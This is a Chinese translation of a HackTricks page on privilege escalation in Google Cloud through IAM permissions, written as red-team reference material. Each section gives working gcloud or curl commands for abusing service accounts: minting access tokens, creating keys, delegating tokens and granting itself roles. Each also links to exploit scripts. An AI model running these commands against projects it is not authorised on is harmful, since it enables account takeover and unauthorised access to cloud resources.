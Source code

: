 # GCP - IAM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

在以下位置查找有关 IAM 的更多信息：

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

具有上述权限的攻击者将能够更新分配给您的角色，并为您提供对其他资源的额外权限，例如：
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
你可以在[**这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py)找到一个自动化**创建、利用和清理漏洞环境的脚本**，以及一个滥用此权限的python脚本。更多信息请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

具有上述权限的攻击者将能够**请求属于服务账户的访问令牌**，因此可以请求比我们拥有更多权限的服务账户的访问令牌。
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
你可以在[**这里**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh)找到一个自动化脚本，用于[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh)，以及一个用于滥用此权限的python脚本[**这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py)。更多信息请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccountKeys.create`

具有上述权限的攻击者将能够**为服务账户创建一个用户管理的密钥**，这将允许我们以该服务账户的身份访问GCP。
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
你可以在[**这里**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh)找到一个自动化创建、利用和清理漏洞环境的脚本，并在[**这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py)找到一个滥用此权限的python脚本。更多信息请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

注意，**`iam.serviceAccountKeys.update` 不能修改 SA 的密钥**，因为要做到这一点还需要 `iam.serviceAccountKeys.create` 权限。

### `iam.serviceAccounts.implicitDelegation`

如果你对一个具有 **`iam.serviceAccounts.getAccessToken`** 权限的服务账户拥有 **`iam.serviceAccounts.implicitDelegation`** 权限，那么你可以使用 implicitDelegation **为该第三方服务账户创建一个令牌**。以下是一个帮助解释的图表。

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

请注意，根据[**文档**](https://cloud.google.com/iam/docs/understanding-service-accounts)，`gcloud` 的委托仅适用于使用 [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) 方法生成令牌。因此，以下是如何直接使用 API 获取令牌的方法：
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
你可以在[**这里**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh)找到一个脚本来自动化[**创建、利用和清理漏洞环境**]，并在[**这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py)找到一个滥用此权限的python脚本。更多信息请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccounts.signBlob`

具有上述权限的攻击者将能够**在GCP中签署任意负载**。因此，可以**创建SA的未签名JWT，然后将其作为blob发送以获取SA签署的JWT**。更多信息请[**阅读此文**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed)。

你可以在[**这里**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh)找到一个脚本来自动化[**创建、利用和清理漏洞环境**]，并在[**这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py)和[**这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py)找到滥用此权限的python脚本。更多信息请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccounts.signJwt`

具有上述权限的攻击者将能够**签署格式良好的JSON web tokens (JWTs)**。与前一种方法的区别在于，**我们使用signJWT方法，它已经期望一个JWT，而不是让google签署包含JWT的blob**。这使得使用更简单，但你只能签署JWT而不是任何字节。

你可以在[**这里**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh)找到一个脚本来自动化[**创建、利用和清理漏洞环境**]，并在[**这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py)找到滥用此权限的python脚本。更多信息请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

具有上述权限的攻击者将能够**向服务账户添加IAM策略**。你可以滥用它来**授予自己**模拟服务账户所需的权限。在以下示例中，我们授予自己对感兴趣的SA的`roles/iam.serviceAccountTokenCreator`角色：
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
你可以找到一个脚本来自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**。**

### `iam.serviceAccounts.actAs`

**iam.serviceAccounts.actAs 权限**类似于**AWS 的 iam:PassRole 权限**。它对于执行任务至关重要，比如启动 Compute Engine 实例，因为它授予“actAs”服务账户的能力，确保安全的权限管理。没有这个权限，用户可能会获得不当的访问权限。此外，利用**iam.serviceAccounts.actAs**涉及多种方法，每种方法都需要一组权限，这与其他只需要一种权限的方法形成对比。

#### 服务账户模拟 <a href="#service-account-impersonation" id="service-account-impersonation"></a>

模拟服务账户对于**获取新的和更好的权限**非常有用。你可以通过三种方式[模拟另一个服务账户](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating_a_service_account)：

* 使用 **RSA 私钥进行身份验证**（上面已介绍）
* 使用 **Cloud IAM 策略进行授权**（此处介绍）
* **在 GCP 服务上部署作业**（更适用于用户账户的妥协）

### `iam.serviceAccounts.getOpenIdToken`

拥有上述权限的攻击者将能够生成一个 OpenID JWT。这些用于断言身份，并不一定对资源具有任何隐含的授权。

根据这篇[**有趣的文章**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b)，需要指明受众（你想用该令牌进行身份验证的服务），你将收到一个由 Google 签名的 JWT，指示服务账户和 JWT 的受众。

你可以生成一个 OpenIDToken（如果你有访问权限）使用：
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
然后你可以用它来访问服务：
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
一些支持通过这种令牌进行身份验证的服务包括：

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (如果使用 Google OIDC)

你可以在[**这里**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py)找到一个如何代表服务账户创建 OpenID 令牌的示例。

## 参考资料

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
学习和练习 AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上关注我们 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}
